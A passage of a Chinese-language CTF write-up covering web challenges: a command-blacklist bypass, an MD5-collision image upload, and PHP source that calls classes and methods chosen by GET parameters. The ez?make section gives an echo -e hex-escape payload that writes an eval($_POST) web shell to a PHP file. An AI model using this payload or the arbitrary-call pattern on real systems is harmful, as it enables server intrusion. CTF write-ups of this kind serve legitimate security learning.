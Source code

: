 ## ez?make

这题在上题的基础上难度增加有点大(oSting师傅好厉害，刀法精准)  


经过漫长测试，发现flag，c,a,t,f,l,?,*,;,/都拉了黑名单，以及()同时出现时，会被正则干扰，不过发现？它只禁了小写(开心)，那么linux的系统命令我们是用不了了  


刚开始一直在想怎么构造一个?来写php文件呢，又是漫长的测试，如chr(63)，后面发现如果()同时出现会被正则干扰，函数也用不了  
后面发现echo的一个参数**e**，它可以将**字符串中16进制转义为相应字符[ASCll码对照表](https://img-blog.csdnimg.cn/img_convert/daaebba06a83b8ca8da90125396a5b30.png)**

相关字符：

```bash
# ascll 转16进制
"   \x22
$   \x24
?   \x3f
'   \x27
(   \x28
)   \x29
;   \x3B
```

小写被禁用了可以用大写，16进制数中大小写不敏感  

> payload： echo -e '<\x3Fphp EVAL\x28\x24_POST["A"]\x29\x3BHIGHLIGHT_FILE\x28__FILE__\x29\x3B' > 2.php  

![ez?make](https://the0n3.top/medias/xyctf-web/test.png)

## ezmd5

先尝试上传两次同一个jpg图片，提示文件md5一样但是文件不一样  

上传两个不同的jpg文件，提示文件相同，md5不同，猜测需要文件内容不同md5相同的jpg图片，在谷歌搜索到两张符合添加的jpg图片，上传提示文件相同，md5相同，并给出了flag  

图片放在这里

![图1](https://the0n3.top/medias/xyctf-web/1.jpg)
 
![图2](https://the0n3.top/medias/xyctf-web/2.jpg)

## ezClass

粘下源码

```php
<?php
highlight_file(__FILE__);
$a=$_GET['a'];
$aa=$_GET['aa'];
$b=$_GET['b'];
$bb=$_GET['bb'];
$c=$_GET['c'];
((new $a($aa))->$c())((new $b($bb))->$c());
```

